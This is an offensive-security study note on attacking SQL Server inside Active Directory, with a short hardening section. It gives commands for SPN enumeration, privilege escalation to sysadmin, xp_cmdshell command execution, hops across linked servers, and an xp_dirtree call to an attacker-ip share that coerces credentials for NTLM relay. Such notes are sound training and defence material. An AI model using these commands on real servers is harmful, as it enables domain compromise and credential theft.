

# 17 - MSSQL in Active Directory

## 1. Executive Summary

SQL Server is everywhere in AD environments and bridges database and domain compromise. Attack threads: **find SQL SPNs** and authenticate with domain creds (integrated auth); escalate **within** SQL via `EXECUTE AS`/`IMPERSONATE` (DB user → sysadmin), `TRUSTWORTHY` databases, and `xp_cmdshell` for **OS command exec** as the SQL service account; pivot **across** servers via **linked servers** (`OPENQUERY` chains, often with stored sysadmin credentials) — sometimes hopping through several SQL boxes into new trust zones; and **coerce/relay** SQL auth (`xp_dirtree`/`xp_fileexist` force the service account to authenticate to you → relay to another SQL or to AD CS).

## 2. Concept Overview

SQL SPNs (`MSSQLSvc/...`) make instances discoverable + Kerberoastable. Privesc primitives: **`IMPERSONATE`** (`EXECUTE AS LOGIN='sa'`), **`TRUSTWORTHY ON` + db_owner** → escalate to sysadmin, **`xp_cmdshell`** → shell as the service account (often a domain account with onward access), **linked servers** → execute on remote instances (privileges of the configured link, frequently sa). UNC-path procs (`xp_dirtree \\attacker\x`) coerce the service account's NTLM.

## 3. Enumeration

```bash
# Find SQL servers via SPN; authenticate with domain creds
GetUserSPNs.py domain/user:pw -dc-ip <dc> | grep MSSQL
mssqlclient.py -k domain/user@sqlsrv.domain      # integrated/Kerberos auth
# inside:
SELECT system_user; SELECT IS_SRVROLEMEMBER('sysadmin');
EXEC sp_linkedservers;  SELECT * FROM sys.servers;
```

## 4. Exploitation

```sql
-- Impersonation chain to sysadmin
SELECT name FROM sys.server_permissions ... ; EXECUTE AS LOGIN = 'sa'; SELECT IS_SRVROLEMEMBER('sysadmin');
-- TRUSTWORTHY abuse (db_owner → sysadmin) ; then:
EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE; EXEC xp_cmdshell 'whoami';   -- OS as service acct
-- Linked server RCE hop
EXEC ('xp_cmdshell ''whoami''') AT [LINKED-SQL];          -- or nested OPENQUERY chains
SELECT * FROM OPENQUERY("LINKED-SQL", 'SELECT IS_SRVROLEMEMBER(''sysadmin'')');
```
```bash
# Coerce + relay the SQL service account
mssqlclient.py ... -q "EXEC xp_dirtree '\\\\<attacker-ip>\\x'"   # while ntlmrelayx listens
# PowerUpSQL automates discovery/links/privesc
Get-SQLInstanceDomain | Get-SQLServerLinkCrawl
```

## 5. Mermaid Attack Flow



## 6. Persistence
- Add a SQL login / trigger; startup proc running `xp_cmdshell`; keep a linked-server path.

## 7. Post-Exploitation / Data Access
- DB data (PII, app secrets); OS as the SQL service account (often domain-privileged); lateral hops via links.

## 8. Defense & Hardening
1. Disable `xp_cmdshell` + unneeded linked servers; avoid `TRUSTWORTHY ON`; least-privilege SQL service accounts (not DA); review `IMPERSONATE` grants.
2. Enforce SMB signing + EPA (coercion/relay); strong/managed passwords (Kerberoast); separate SQL admins.
3. Monitor `xp_cmdshell`/`sp_configure`, linked-server use, `xp_dirtree` to external UNCs, sysadmin role changes.

## 9. Chaining & Related Notes
- Kerberoast SQL SPNs: **[[04 - Kerberoasting]]** (A-36). Relay/coercion: **[[04 - AD CS NTLM Relay ESC8 and Coercion]]**, **[[11 - NTLM Relay Attack]]** (A-36).
- SCCM site DB is MSSQL: **[[16 - SCCM and MECM Attacks]]**. Network-layer MSSQL: **[[10 - MSSQL (Port 1433) Pentesting]]**.

## 10. Tools
`mssqlclient.py`, `PowerUpSQL`, `GetUserSPNs.py`, `ntlmrelayx.py`, `mssqlpwner`.
